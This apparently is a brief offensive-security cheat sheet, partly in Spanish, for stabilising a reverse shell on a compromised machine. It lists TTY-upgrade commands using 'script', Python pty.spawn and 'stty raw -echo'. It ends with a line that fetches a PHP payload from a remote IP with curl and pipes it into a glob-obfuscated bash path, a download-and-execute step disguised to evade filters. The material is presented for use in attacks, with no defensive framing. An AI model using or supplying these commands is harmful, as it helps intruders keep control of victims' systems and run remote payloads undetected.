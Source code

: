 ### bash
```css
		script /dev/null -c bash 
		ctrl + z 
		stty raw -echo; fg
		reset 
	--especifica la terminal --xterm 
		export TERM=xterm 
		export SHELL=bash
```

### Python

```python
	python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```python
	script -qc /bin/bash /dev/null
	ctrl + z 
		stty raw -echo; fg
		reset 
	--especifica la terminal --xterm 
		export TERM=xterm 
		export SHELL=bash
```

curl 01.8.203.6:8000/shellencod.php | /b?n/ba?h